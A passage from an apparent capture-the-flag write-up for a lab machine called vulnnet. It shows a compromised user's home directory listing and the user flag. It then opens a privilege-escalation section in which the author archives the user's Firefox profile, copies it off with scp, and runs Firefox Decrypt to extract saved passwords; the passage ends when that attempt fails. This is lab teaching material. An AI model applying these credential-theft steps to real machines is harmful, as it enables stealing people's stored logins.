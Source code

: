 ```bash
drwx------  2 server-management server-management 4096 Jan 23 14:03 Desktop
-rw-r--r--  1 server-management server-management   26 Jan 23 14:03 .dmrc
drwxr-xr-x  2 server-management server-management 4096 Jan 23 21:55 Documents
drwxr-xr-x  2 server-management server-management 4096 Jan 23 22:14 Downloads
drwx------  3 server-management server-management 4096 Jan 23 14:03 .gnupg
drwxrwxr-x  3 server-management server-management 4096 Jan 23 14:03 .local
drwx------  5 server-management server-management 4096 Jan 23 14:14 .mozilla
drwxr-xr-x  2 server-management server-management 4096 Jan 23 14:03 Music
drwxr-xr-x  2 server-management server-management 4096 Jan 23 14:03 Pictures
-rw-r--r--  1 server-management server-management  807 Jan 23 13:58 .profile
drwxr-xr-x  2 server-management server-management 4096 Jan 23 14:03 Public
drwx------  2 server-management server-management 4096 Jan 24 14:09 .ssh
-rw-r--r--  1 server-management server-management    0 Jan 23 14:04 .sudo_as_admin_successful
drwxr-xr-x  2 server-management server-management 4096 Jan 23 14:03 Templates
drwx------  4 server-management server-management 4096 Jan 23 19:58 .thumbnails
-rw-------  1 server-management server-management   38 Jan 23 22:12 user.txt
drwxr-xr-x  2 server-management server-management 4096 Jan 23 14:03 Videos
-rw-------  1 server-management server-management   52 Jan 24 14:05 .Xauthority
-rw-r--r--  1 server-management server-management   14 Feb 12  2018 .xscreensaver
-rw-------  1 server-management server-management 2586 Jan 24 14:05 .xsession-errors
-rw-------  1 server-management server-management 2586 Jan 23 22:17 .xsession-errors.old

server-management@vulnnet:~$ cat user.txt 
USER FLAG
```

## Getting Root

The first thing that caught my eyes in the home folder is the `.mozilla` directory. The Firefox profiles often contains credentials that can be read with [Firefox Decrypt](https://github.com/Unode/firefox_decrypt). I archived and compressed the .mozilla folder.

```bash
$ tar -cvf ffProfile.tar .mozilla/
$ gzip ffProfile.tar
```

Then I downloaded it to my machine to try and extract some passwords.

```bash

$ scp -i id_rsa server-management@vulnnet.thm:~/ffProfile.tar.gz .
Enter passphrase for key 'id_rsa': 
ffProfile.tar.gz                                100% 1793KB 528.6KB/s   00:03    

$ gunzip ffProfile.tar.gz 

$ tar -xvf ffProfile.tar 

$ python3 firefox_decrypt-master/firefox_decrypt.py .mozilla/firefox/
2021-06-06 11:12:21,873 - ERROR - Couldn't find credentials file (logins.json or signons.sqlite).
```
It failed. 
